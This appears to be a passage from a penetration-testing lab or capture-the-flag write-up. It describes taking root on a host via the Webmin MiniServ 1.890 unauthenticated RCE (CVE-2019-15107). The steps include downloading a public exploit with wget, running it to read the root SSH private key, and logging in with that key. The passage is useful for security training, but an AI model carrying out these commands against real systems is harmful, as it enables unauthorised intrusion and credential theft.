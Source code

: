 ![4webpage](imgs/4webpage.png)

### Root access on 10.200.90.200 (prod-serv)

RCE of MiniServ/1.890
- Google search the keywords "MiniServ/1.890"
	- https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE
	- https://medium.com/@foxsin34/webmin-1-890-exploit-unauthorized-rce-cve-2019-15107-23e4d5a9c3b4
- Download the exploit: `wget https://raw.githubusercontent.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/master/webmin-1.890_exploit.py`
- Read and understand how this exploit works: `less webmin-1.890_exploit.py`
- Getting the ssh key of root: `python webmin-1.890_exploit.py 10.200.90.200 10000 "cat /root/.ssh/id_rsa"`
- Copy and paste the ssh private key; change the permission of ssh private key; ssh to the target with root permission
```
vi id_rsa_root

chmod 400 id_rsa_root

ssh -i id_rsa_root root@10.200.90.200
```

